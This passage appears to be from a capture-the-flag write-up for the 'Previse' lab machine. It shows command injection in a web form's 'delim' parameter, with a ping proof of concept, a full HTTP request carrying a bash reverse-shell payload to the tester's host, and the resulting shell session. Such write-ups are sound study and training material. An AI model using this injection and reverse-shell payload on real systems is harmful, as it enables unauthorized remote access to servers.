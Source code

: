 - payload: there must be a space between the end of command and comment char #
  - `delim=comma;ping+-c+1+10.10.14.14%23` [x]
  - `delim=comma;ping+-c+1+10.10.14.14+%23` [yes]

**POC**:

```console
└─╼$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:28:08.740342 IP 10.10.11.104 > 10.10.14.14: ICMP echo request, id 2405, seq 1, length 64
16:28:08.740362 IP 10.10.14.14 > 10.10.11.104: ICMP echo reply, id 2405, seq 1, length 64
```

**Exploit**:

```console
POST /logs.php HTTP/1.1
Host: 10.10.11.104
Content-Length: 11
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.104
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.104/file_logs.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=e00qgq35n21f6guh261aj02cce
Connection: close

delim=comma;bash+-c+"bash+-i+>%26/dev/tcp/10.10.14.14/1234+0>%261"+%23
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.104] 60860
bash: cannot set terminal process group (1443): Inappropriate ioctl for device
bash: no job control in this shell
www-data@previse:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@previse:/var/www/html$ uname -a
uname -a
Linux previse 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
www-data@previse:/var/www/html$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:f4:08 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.104/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:f408/64 scope global dynamic mngtmpaddr
       valid_lft 86400sec preferred_lft 14400sec
    inet6 fe80::250:56ff:feb9:f408/64 scope link
       valid_lft forever preferred_lft forever
```